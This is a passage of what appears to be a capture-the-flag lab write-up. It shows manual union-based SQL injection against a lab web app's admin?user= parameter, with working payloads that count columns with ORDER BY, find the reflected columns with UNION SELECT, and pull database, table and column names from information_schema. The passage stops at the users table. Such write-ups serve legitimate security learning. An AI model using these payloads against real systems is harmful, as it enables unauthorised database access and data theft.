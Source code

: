 We got a new panel, let's take look at it.

![](10.png)

Here we can see information about different users, for example we see that user jake and michael are administrators.

Clicking on one of the users we get redirected to `http://10.10.109.12/admin?user=2`.

![](11.png)

## **Foothold**

Let's try adding an `'` to the user parameter.

![](12.png)

The parameter is vulnerable to sql injection, and we see that the database in use is MySql.

First we need to determine the number of columns in the query, we do that with `ORDER BY 1` payload, and we keep increasing the number until we get an error.

![](13.png)

We got an error on 5 which means there are 4 columns.

Now we need to find the right columns where we can do our sql injection. We can use the following payload.

```text
12 UNION SELECT 5,7,3,4
```

![](14.png)

We changed the value of user to a one that doesn't exist for it to work.

To get the name of the database, we use the following query.

```text
http://10.10.109.12/admin?user=12 UNION SELECT 5,database(),3,4
```

![](15.png)

To list the tables, we use the following query.

```text
http://10.10.109.12/admin?user=12 UNION SELECT 5,group_concat(table_name),3,4 fRoM+information_schema.tables+wHeRe+table_schema=database()
```

![](16.png)

We found a table named `users`. Let's list the tables columns with the following query.

```
http://10.10.109.12/admin?user=12 UNION SELECT 5,group_concat(column_name),3,4 fRoM+information_schema.columns+wHeRe+table_name='users'
```
